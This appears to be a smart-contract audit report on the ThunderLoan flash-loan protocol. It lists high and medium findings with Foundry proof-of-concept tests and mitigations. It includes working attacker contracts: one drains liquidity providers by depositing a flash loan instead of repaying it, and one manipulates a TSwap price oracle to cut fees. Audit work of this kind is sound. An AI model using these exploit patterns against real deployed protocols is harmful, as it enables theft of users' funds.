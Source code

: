 ### [H-1] `ThunderLoan::deposit` function updates `exchangeRate` without getting any `fees`, causing unfair redeeming of the tokens by the liquidators.

**Description:** `ThunderLoan::s_exchangeRate` variable is responsible to share fairly the liquidity inside the `AssetToken` contract based on the fees gathered on every flashloan. The problem is that in the `deposit` function we are updating the `exchangeRate` without getting any fees. We are calculating the fee based on the deposited amount and then updating the `exchangeRate`.

<details>
<summary>`deposit` function</summary>

```javascript
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
        // @audit-high this two lines are screwing up the exchange rate, and liquidators can't redeem their
        // tokens. Because they are updating the exchange rate which causes that the token becomes more
        // valuable without putting any money, so is insuficeint balance
@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);
        
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

</details>

**Impact:** Couple of impacts:
- Unfair share to the liquidators, some are going to withdraw more liquidity than they deserved and others less.
- Violated `exhangeRate` variable.

**Proof of Concept:** You can paste this tests and modifiers to the `ThunderLoanTest.t.sol`.
Basic process of the protocol:
1. Allow token (tokenA);
2. Mint and deposits tokenA from `liquityProvider` to the `thunderLoan` contract.
3. Mint `tokenA` for the `user` to pay the `fee` to make a quick flashloan.
4. The `liquidityProvider` tries to `redeem` their money but `reverts` with insuficint balance.

<details>
<summary>Modifiers and Tests</summary>

Modifier allow token

```javascript
modifier setAllowedToken() {
        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);
        _;
    }
```

Modifier liquidityProvider deposits

```javascript
modifier hasDeposits() {
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, DEPOSIT_AMOUNT);
        tokenA.approve(address(thunderLoan), DEPOSIT_AMOUNT);
        thunderLoan.deposit(tokenA, DEPOSIT_AMOUNT);
        vm.stopPrank();
        _;
    }
```

Test liquidity provider can't redeem

```javascript
function testCantRedeemForLiquidators() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();


        uint256 amountToRedeem = type(uint256).max;
        vm.expectRevert();
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
        vm.stopPrank();
    }
```

</details>

**Recommended Mitigation:** Consider deleting the lines on the function `deposit` that are updating the exchange rate:

```diff
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
        
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```



### [H-2] Return the `ThunderLoan::flashloan` value in the `ThunderLoan::deposit` function can drain the liquidators balances.

**Description:** In `ThunderLoan::flashloan` function is checking the balance of the contract `AssetToken` to see if the value of the `flashloan` is returned, so at first, instead of using the `ThunderLoan::repay` function to return the money we can transfer directly to the contract and it will work (pass the function). Seeing this instead of transfering the money, we can use the `deposit` function to return the value of the flashloan, causing a couple of things:
- The `flashloaner` becoming a liquidator with the money of the iquidators.
- The respective shares will go to the `flashloaner` (attacker) and casuing a big mismatch on the balance of the contract and he can withdraw all that money, stealing from the real liquidators.

**Impact:** Stealing the funds of the liquidators, totally disrupt of the protocol.

**Proof of Concept:** We have a test and new contract from the `flashloaner` (attacker) tha receives teh flashloan, you can paste it in the `ThunderLoanTest.t.sol`:
1. Attacker makes a flashloan.
2. The value of tthe flashloan is sent to the contract and instead of repaying the money, it calls `deposit` and becomes a liquidator.
3. Redeem the funds just deposited to the contract.

<details>
<summary>Contract attacker</summary>

```javascript
contract DepositOverRepay is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    address s_token;
    
    constructor(address _thunderLoan) {
        thunderLoan = ThunderLoan(_thunderLoan);
    }

    function executeOperation(address token, uint256 amount, uint256 fee, address /*initiator*/, bytes calldata /*params*/)
        external
        returns (bool) {
            s_token = token;
            assetToken = thunderLoan.getAssetFromToken(IERC20(token));
            IERC20(token).approve(address(thunderLoan), amount + fee);
            thunderLoan.deposit(IERC20(token), amount + fee);
            
            return true;
            
    }

    function redeemMoney() public {
        uint256 amount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(IERC20(s_token), amount);
    }
}
```

</details>


<details>
<summary>Test</summary>

```javascript
function testDepositInsteadOfRepay() public setAllowedToken hasDeposits {
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor = new DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fee);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        dor.redeemMoney();
        console.log("Fee: ", fee);
        vm.stopPrank();

        // Is not going to be equal because we updated the exchange rate in the flashloan and deposit 
        // call function, so we going to get more than what we stole
        assert(tokenA.balanceOf(address(dor)) > 50e18 + fee);
        
    }
```
</details>

**Recommended Mitigation:** Instead of cheking all the balance of the contract, make sure everybody has to call the `repay` function to return the value of the flashloan.


### [H-3] Change of `storage` variable to `constant` on `ThunderLoanUpgraded.sol` cause storage collision on the upgradeability of the contract.

**Description:** On `ThunderLoan.sol` we have the following variables declared, both `storage`:
```javascript
    uint256 private s_feePrecision;
    uint256 private s_flashLoanFee;
```

But then on `ThunderLoanUpgraded.sol` (the upgrade of thunderloan based on the `readme.md`) change one variable to constant:
```javascript
    uint256 private s_flashLoanFee; // 0.3% ETH fee
    uint256 public constant FEE_PRECISION = 1e18;
```

Causing a storage collision between them making the value of the fee wrong. As the constant variables are not stored on `storage` only on the contract itself.

**Impact:** Value of the fees are wrong, paying more the `flashloaners`.

**Proof of Concept:** Test:
1. Store the value of the real fee in a variable.
2. Upgrade the contract.
3. Store the value of the feem in a new variable.
4. Compare them.

<details>
<summary>Test storage collision</summary>

```javascript
function testUpgradeBreaks() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 feeAfterUpgrade = thunderLoan.getFee();
        vm.stopPrank();

        console.log("Fee before the uprade: ", feeBeforeUpgrade);
        console.log("Fee after the uprade: ", feeAfterUpgrade);
        assert(feeBeforeUpgrade < feeAfterUpgrade);
    }
```

</details>

**Recommended Mitigation:** Change as a `constant` the right variable in the `ThunderLoan.sol`.

```diff
-   uint256 private s_feePrecision;
+   uint256 private constant s_feePrecision; 
    uint256 private s_flashLoanFee; // 0.3% ETH fee
```

And change the order of declared variables on `ThunderLoanUpgraded.sol`
```diff
-   uint256 private s_flashLoanFee; // 0.3% ETH fee
-   uint256 public constant FEE_PRECISION = 1e18;
+   uint256 public constant FEE_PRECISION = 1e18;
+   uint256 private s_flashLoanFee; // 0.3% ETH fee
```


### [H-4] Wrong calculation of fees on `ThunderLoan::getCalculatedFee` function.

**Description:** On function `ThunderLoan::getCalculatedFee` calculates the fee based on the oracle of `T-Swap`, specifically on a pool `TokenPool::Weth` instead of grabing the `TokenPool` price  is taking the `weth` price, so is calculating the fee based on `weth` not on the `tokenPool`.
```javascript
function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
        //slither-disable-next-line divide-before-multiply
@>      uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
        //slither-disable-next-line divide-before-multiply
        fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;
```

**Impact:** Wrong calculation of fees.

**Recommended Mitigation:** Taking the price of `TokenPool` of the pool oracle.



### [M-1] Taking Price Oracle from `TSwap` leads to origin a price oracle manipulation, setting the `fee` of the `flashLoaners` less than it should.

**Description:** In `ThunderLoan::getCalculatedFee` function takes as a price oracle the `TSwapPool` of the token used on th `flashloan`. Meaning that if we tank the price of the `TSwapPool` of the `tokenPool` / `WETH`, the fess could be lower than expected.

Function `getCalculatedFee`:

```javascript
function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
        //slither-disable-next-line divide-before-multiply
        // @audit-medium price oracle manipulation
        uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
        //slither-disable-next-line divide-before-multiply
        fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;
    }
```

**Impact:** Flashloaners can pay less fees than expected for the liquidators

**Proof of Concept:** There is a test and new contract to receive the flashloan and do the price manipulation:
1. We set up a new environment with new contracts.
2. Fund the TSwap tokenA / WETH pool.
3. Fund the thunderloan to make the flashloans
4. Make the first flashloan.
4. Create a new contract which is going to take the flashloan and
    1. Swap the flashloan inside the TSwap pool tanking the price
    2. Make another flashloan before repaying the first flashloan
    3. Repay the first flashloan with normal fee
    4. Repay the second one with a fee less than expected


<details>
<summary>Contract `FlashLoanReceiver`</summary>

Paste this at the end of the `ThunderLoanTest.t.sol`
```javascript
// We have to make a separate contract to receive the flashloan and do the stuff manipulate the price oracle
// and get less fees from thunderloan
contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    BuffMockTSwap tswapPool;
    address repayAddress;
    bool attacked;
    uint256 public feeOne;
    uint256 public feeTwo;
    
    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tswapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
    }

    function executeOperation(address token, uint256 amount, uint256 fee, address /*initiator*/, bytes calldata /*params*/)
        external
        returns (bool) {

            if (!attacked) {
                // Receive the flashloan and tank the price of TSwap with the flashloan
                // 2. Take out another flashLoan to see the difference
                feeOne = fee;
                attacked = true;
                uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
                IERC20(token).approve(address(tswapPool), 50e18);

                // We tank the price
                tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);

                // We call second flashloan
                thunderLoan.flashloan(address(this), IERC20(token), amount, "");

                // repay
                // This mode doesn't work because we can't repay if we do two flashLoans on the same Token (Low bug)
                //IERC20(token).approve(address(thunderLoan), amount + fee);
                //thunderLoan.repay(IERC20(token), amount + fee);
                IERC20(token).transfer(repayAddress, amount + fee);
            } else {
                // Calculate the fee and repay
                feeTwo = fee;
                //IERC20(token).approve(address(thunderLoan), amount + fee);
                //thunderLoan.repay(IERC20(token), amount + fee);
                IERC20(token).transfer(repayAddress, amount + fee);
            }
            return true;
            
    }
}

```


</details>


<details>
<summary>Test Manipulate price oracle</summary>

```javascript
function testOracleManipulation() public {
        // 1. Set up contracts
        thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
        // Create pool WETH / TOKENA
        address pool = pf.createPool(address(tokenA));
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(pf));

        // 2. Fund TSWAP
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(pool, 100e18);
        weth.mint(liquidityProvider, 100e18);
        weth.approve(pool, 100e18);
        // Ratio 100 WETH = 100 tokenA
        // Price 1:1
        BuffMockTSwap(pool).deposit(100e18, 100e18, 100e18, block.timestamp);
        vm.stopPrank();
        
        // 3. Fund ThunderLoan
        //  Set and allow token
        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);
        //  Fund
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        vm.stopPrank();
        // We have right now 100 WETH / 100 tokenA on TSwap
        // 1000 tokenA in thunderLoan
        // Take out a flashloan of 50 tokenA
        // swap it on the DEX tanking the price > 150 tokenA -> ~80 WETH
        // Take out another flashloan of 50 tokenA (and we will see how much cheaper it is!).

        // 4. We are going to take out two flashloans
        //  a. One to nuke the price of the WETH / tokenA TSwap
        //  b. To show that doing so greatly reduces the fees we pay on thunderloan

        uint256 normalFeeCost100 = thunderLoan.getCalculatedFee(tokenA, 100e18);
        uint256 normalFeeCost50 = thunderLoan.getCalculatedFee(tokenA, 50e18);
        console.log("Normal Fee for 100e18 is: ", normalFeeCost100);
        console.log("Normal Fee for 50e18 is: ", normalFeeCost50);
        // 296147410319118389

        uint256 amountToBorrow = 50e18; // gonna do this twice
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(pool, address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA)));
        
        vm.startPrank(user);
        // MInt some tokens to the contract receiver to pay the fee
        tokenA.mint(address(flr), 100e18);
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.feeOne() + flr.feeTwo();
        console.log("Attack total fee is: ", attackFee);
        console.log("Attack fee one is: ", flr.feeOne());
        console.log("Attack fee two is: ", flr.feeTwo());
        assert(attackFee < normalFeeCost100);
    
    }
```

</details>

**Recommended Mitigation:** Use another oracle for the price like `Chainlink`.